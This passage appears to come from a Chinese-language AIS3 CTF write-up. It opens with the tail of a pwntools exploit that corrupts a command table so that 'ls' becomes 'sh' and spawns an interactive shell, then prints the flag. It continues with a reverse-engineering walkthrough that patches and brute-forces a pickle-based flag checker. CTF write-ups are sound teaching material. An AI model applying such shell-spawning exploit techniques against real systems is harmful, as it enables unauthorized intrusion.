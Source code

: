 ``` python

def runCmd(cmd):
    c.sendlineafter("$", "run " + cmd)

define(3, 'sc', 3, 'ls')
runCmd('sc')

define(-0x1000, 'ls' + 'l'*(0x1210 + 0x1210 - 0x450 - 3522) + 'sh' , 3 ,'ls')
runCmd('sc')

c.interactive()
c.close()
```

```
AIS3{0hh_H0w_do_you_ch@ng3_my_comm4nd}
```



# rev



## 🐰 Peekora 🥒 (solved)

一開始下載 pickle 檔案，可以看到裡面

- str 會呼叫 `__eq__`
- List 會呼叫 `__getitem__`
- 可以觀察到 Mark `(` 和 Reduce `R` 一定成對

opcode 可以參考 https://github.com/python/cpython/blob/main/Lib/pickle.py

觀察 pickle 的內容 ，可以轉換成 bytecode

```bash
python3 -m pickletools flag_checker.pkl
```

一開始的 exit 似乎會阻擋程式執行，可直接改成 print，

改成 print  之後，執行會看到許多空行，代表錯誤的 char ，這樣就可以透過爆破 一個個 byte 了，空行越少代表越正確。

並且 checker 只有檢查到 [14] 所以後面的四個可以不用管

### exploit

solve_sub.py ，當中 patched.pkl 只是把 exit patched 成 print

``` python
#!/usr/bin/env python
import pickle

#f=open('flag_checker.pkl','rb')
f=open('patched.pkl','rb')
data=pickle.load(f)
print(data)
```
